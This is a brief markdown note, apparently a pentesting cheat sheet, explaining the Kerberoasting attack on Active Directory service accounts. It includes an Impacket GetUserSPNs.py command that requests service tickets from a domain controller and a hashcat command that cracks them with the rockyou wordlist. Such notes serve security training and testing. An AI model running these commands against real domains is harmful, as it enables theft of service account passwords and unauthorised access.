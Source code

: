Kerberoasting takes advantage of Service Accounts. It attacks step 4 of the process below.
![image](https://github.com/user-attachments/assets/1d296fb8-cf21-4b2b-9fa1-05ae2f48b7f4)
* TGT = Ticket-Granting Ticket
* TGS = Ticket-Granting Service
* SPN = Service Principal Name
Anyone with compromised credentials can request a TGT.

TGS is encrypted with the servers account hash. Thus if it is cracked, we get the password to the Service Account.
# How to do it
Get the TGS of the DC:
```bash
GetUserSPNs.py [DOMAIN]/[USERNAME]:[PASSWORD] -dc-ip [IP of DC] -request
```
Store the hash in a text file and decrypt the hash:
```bash
sudo hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
